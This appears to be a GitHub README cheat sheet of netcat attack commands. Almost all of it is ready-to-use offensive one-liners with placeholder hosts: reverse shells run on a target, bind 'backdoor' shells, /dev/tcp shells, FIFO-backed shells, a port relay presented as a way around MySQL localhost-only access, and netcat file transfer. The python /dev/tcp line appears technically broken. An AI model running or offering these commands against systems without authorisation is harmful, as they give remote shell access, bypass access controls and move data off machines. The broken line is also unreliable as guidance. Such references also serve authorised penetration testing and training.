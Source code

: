 # netcat-utils
Useful netcat commands such as Reverse Shells, Port Relays via FIFO, and others stuff.










### Listener ###
Listen for inbound connection over TCP. This can be used to receive reverse shell sessions.
```
nc -lv -p [port]
```




### Connections ###
Initiate an outbound connection over TCP to a `[host]` which is listening on that `[port]`.
```
nc [host] [port]
```




### Reverse Shells ###
Run the following commands on a target which attempt to connect over TCP to the `[host]`. Host must be listening on `[port]`, _see above_.
```
nc [host] [port] -e /bin/bash
nc [host] [port] -e /bin/sh
nc [host] [port] -e cmd.exe
```




### Backdoor Shells ###
Same commands as before but in this case the target creates a listener which serves up a shell to anyone connecting on that `[port]`.
```
nc -l -p [port] -e /bin/bash
nc -l -p [port] -e /bin/sh
nc -l -p [port] -e cmd.exe
```




### Reverse Shell without Netcat on Target ###
As with the previous reverse shells, the `host` should be listening on the `port` sepecified for the callback to be successful.
```
bash -i >& /dev/tcp/[host]/[port] 0>&1
sh -i >& /dev/tcp/[host]/[port] 0>&1
python -i >& /dev/tcp/[host]/[port] 0>&1
```




### Relay / Port Redirection ###

**Create FIFO**

First in First Out, also known as named pipes, created by using `mknod p`. The `p` flag == type FIFO.
```
mknod [pipe-name] p
```

**Relay**

Create a loopback which will relay traffic between `localhost:[Port-A]` and `localhost:[Port-B]` on the target, allowing inbound connections to `localhost:[Port-B]` to be directed at `[Port-A]`.
```
nc -l -p [Port-B] 0< [pipe-name] | nc localhost [Port-A] 1> [pipe-name]
```
First netcat is used to create a listener on `[Port-B]` which we will direct Stdin `0<` to the named-pipe. Then forward the output of this listener via the tranditional pipe to the netcat connection to `[Port-A]`. Direct whatever service is listening on `[Port-A]` Stdout `1>` to the named-pipe, which will send the response back through the listener.

**Examples:**

MySQL by default listens on Port 3306, this will fool mysqld into thinking the connecting user is `user@localhost`! Many web apps only permit users from localhost and communicate via loopback connections to backend databases while not exposing the port to the outside; this would bypass that allowing external mysql client sessions that appear to originate from localhost.
Target: `nc -l -p [Port-B] 0< [pipe-name] | nc 127.0.0.1 3306 1> [pipe-name]`
Connection: `mysql --port [Port-B] --username=[user] --password=[passwd]`
Unfortunately the default `secure_mysql_installation` option "Prevent root from outside" will still disable `root`@`localhost` to connect in this manor.

FIFO's can also be used to connect to shells.
```
nc -l -p [port] 0< [pipe-name] | bash -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | sh -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | python -i 1> [pipe-name]
```




### File Transfer ###
Files can be transmitted across a netcat session using Stdin/Stdout.

Destination: `nc -l -p [port] > /path/to/file`

Source: `nc [host] [port] < path/to/file`

